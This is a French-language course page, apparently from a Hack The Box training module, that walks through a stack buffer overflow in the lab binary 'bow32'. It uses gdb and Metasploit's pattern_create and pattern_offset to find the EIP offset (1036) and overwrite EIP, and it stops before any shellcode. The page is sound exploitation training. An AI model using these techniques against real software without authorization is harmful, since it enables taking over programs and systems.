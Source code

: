 # Take Control of EIP

{% hint style="warning" %}
Un des aspects les plus importants d'un débordement de tampon basé sur la pile est de prendre le contrôle du pointeur d'instruction (EIP), afin que nous puissions lui indiquer vers quelle adresse il doit sauter. Cela fera pointer l'EIP vers l'adresse où notre shellcode commence et amènera le CPU à l'exécuter.
{% endhint %}

### <mark style="color:red;">Erreur de Segmentation</mark>

#### <mark style="color:green;">Prendre le Contrôle d'EIP</mark>

```bash
student@nix-bow:~$ gdb -q bow32

(gdb) run $(python -c "print '\x55' * 1200")
Starting program: /home/student/bow/bow32 $(python -c "print '\x55' * 1200")

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()
```

Si nous insérons 1200 "U" (hex "55") comme entrée, nous pouvons voir à partir des informations du registre que nous avons écrasé l'EIP. Comme nous le savons, l'EIP pointe vers la prochaine instruction à exécuter.

#### <mark style="color:green;">Prendre le Contrôle d'EIP</mark>

```bash
(gdb) info registers 

eax            0x1	1
ecx            0xffffd6c0	-10560
edx            0xffffd06f	-12177
ebx            0x55555555	1431655765
esp            0xffffcfd0	0xffffcfd0
ebp            0x55555555	0x55555555		# <---- EBP écrasé
esi            0xf7fb5000	-134524928
edi            0x0	0
eip            0x55555555	0x55555555		# <---- EIP écrasé
eflags         0x10286	[ PF SF IF RF ]
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
fs             0x0	0
gs             0x63	99
```

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

***

Cela signifie que nous avons un accès en écriture à l'EIP. Ceci, à son tour, permet de spécifier vers quelle adresse mémoire l'EIP doit sauter. Cependant, pour manipuler le registre, nous avons besoin d'un nombre exact de U jusqu'à l'EIP afin que les 4 octets suivants puissent être écrasés avec notre adresse mémoire désirée.

***

### <mark style="color:red;">Déterminer le Décalage</mark>

Le décalage est utilisé pour déterminer combien d'octets sont nécessaires pour écraser le tampon et combien d'espace nous avons autour de notre shellcode.

{% hint style="warning" %}
Le shellcode est un code de programme qui contient des instructions pour une opération que nous voulons que le CPU exécute. La création manuelle du shellcode sera discutée plus en détail dans d'autres modules. Mais pour économiser du temps d'abord, nous utilisons le Metasploit Framework (MSF) qui offre un script Ruby appelé "pattern\_create" qui peut nous aider à déterminer le nombre exact d'octets pour atteindre l'EIP. Il crée une chaîne unique basée sur la longueur d'octets que vous spécifiez pour aider à déterminer le décalage.
{% endhint %}

#### <mark style="color:green;">Créer un Motif</mark>

{% code fullWidth="true" %}
```bash
mrroboteLiot_1@htb[/htb]$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txt
mrroboteLiot_1@htb[/htb]$ cat pattern.txt

Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9
```
{% endcode %}

Maintenant nous remplaçons nos 1200 "U" avec les motifs générés et concentrons à nouveau notre attention sur l'EIP.

#### <mark style="color:green;">GDB - Utilisation du Motif Généré</mark>

{% code fullWidth="true" %}
```bash
(gdb) run $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'") 

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'")
Program received signal SIGSEGV, Segmentation fault.
0x69423569 in ?? ()
```
{% endcode %}

#### <mark style="color:green;">GDB - EIP</mark>

```bash
(gdb) info registers eip

eip            0x69423569	0x69423569
```

Nous voyons que l'EIP affiche une adresse mémoire différente, et nous pouvons utiliser un autre outil MSF appelé "pattern\_offset" pour calculer le nombre exact de caractères (décalage) nécessaire pour avancer jusqu'à l'EIP.

#### <mark style="color:green;">GDB - Décalage</mark>

{% code fullWidth="true" %}
```bash
mrroboteLiot_1@htb[/htb]$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569

[*] Exact match at offset 1036
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Si nous utilisons maintenant précisément ce nombre d'octets pour nos "U", nous devrions atterrir exactement sur l'EIP. Pour l'écraser et vérifier si nous l'avons atteint comme prévu, nous pouvons ajouter 4 octets supplémentaires avec "\x66" et l'exécuter pour nous assurer que nous contrôlons l'EIP.

#### <mark style="color:green;">Décalage GDB</mark>

```bash
(gdb) run $(python -c "print '\x55' * 1036 + '\x66' * 4")

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c "print '\x55' * 1036 + '\x66' * 4")
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
```

<figure><img src="../../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Maintenant nous voyons que nous avons écrasé l'EIP avec nos caractères "\x66". Ensuite, nous devons découvrir combien d'espace nous avons pour notre shellcode, qui exécutera alors les commandes que nous avons l'intention d'exécuter. Comme nous contrôlons maintenant l'EIP, nous l'écraserons plus tard avec l'adresse pointant vers le début de notre shellcode.
